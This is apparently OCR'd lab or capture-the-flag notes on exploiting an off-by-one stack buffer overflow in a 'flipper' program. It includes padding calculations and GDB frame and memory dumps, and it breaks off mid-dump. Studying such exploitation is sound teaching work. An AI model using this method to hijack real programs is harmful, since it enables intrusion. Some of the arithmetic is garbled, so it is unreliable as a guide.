  
❗️      Note: As there is a 1 / 256 chance we will get VALUE = '\x00' (null byte) ending SFP... 

thus must print garbage bytes in egg after SHELLCODE- pushes rest of stack to different addresses. 

    We must print 256 / 4 = 64 bites of garbage, and we already have used 
    
                    4[RIP] + 4[SFP] + 4[stored pointed to global SHELLCODE] = 12 bites
                    
    thus, 64 - 12 = 52 bites of padding in buffer char --> 64 total , 
    
    AND, +1 would overflow (so that is where we inject shell, remember +1, or 65 runs due to loop overflow).
    
Using GDB,find address of char buf :
    
        Starting program: /home/vega/flipper \(\)
        Breakpoint 1, flip (buf=0xbffffae0 "", input=0xbffffcc1 "()") at flipper.c:10
          (gdb) i f 
          Stack level 0, frame at 0xbffffad8:
           eip = 0x8049202 in flip (flipper.c:10); saved eip = 0x804925d
           called by frame at 0xbffffb28
           source language c.
           Arglist at 0xbffffad0, args: buf=0xbffffae0 "", input=0xbffffcc1 "()"
           Locals at 0xbffffad0, Previous frame's sp is 0xbffffad8
           Saved registers:
            ebp at 0xbffffad0, eip at 0xbffffad4

    Address of looped char buffer[64]; buf=0xbffffae0 "" Note: value is empty --> start of loop
    EIP of buf: eip = 0xbffffad4
    EBP of buf: ebp = 0xbffffad0

        BEFORE RUN
        (gdb) x/32x buf   
         0xbffffae0:     0x00000000      0x00000001      0x00000000      0xbffffc8b
         0xbffffaf0:     0x00000000      0x00000000      0x00000000      0x00000000
         0xbffffb00:     0x00000000      0xbfffffe9      0xb7ffe540      0xb7ffe000
         0xbffffb10:     0x00000000      0x00000000      0x00000000      0x00000000
         0xbffffb20:     0xbffffb2c      0x0804927a      0xbffffcc1      0xbffffb38
         0xbffffb30:     0x0804929e      0xbffffcc1      0xbffffbc0      0x0804946f
         0xbffffb40:     0x00000002      0xbffffbb4      0xbffffbc0      0x0804a000
         0xbffffb50:     0x00000000      0x00000000      0x0804944d      0x0804bfe8


### EXPLOIT PARTS:
   
#### EXPLOIT : 
   
        AFTER RUN
        (gdb) c
        Continuing.
        Breakpoint 1, flip (buf=0xbffffae0 "\b", input=0xbffffcc1 "()") at flipper.c:10
        (gdb) x/32x buf
          0xbffffae0:     0x00000000      0x00000001      0x00000000      0xbffffc8b
          0xbffffaf0:     0x00000000      0x00000000      0x00000000      0x00000000
          0xbffffb00:     0x00000000      0xbfffffe9      0xb7ffe540      0xb7ffe000
          0xbffffb10:     0x00000000      0x00000000      0x00000000      0x00000000
          0xbffffb20:     0xbffffb2c      
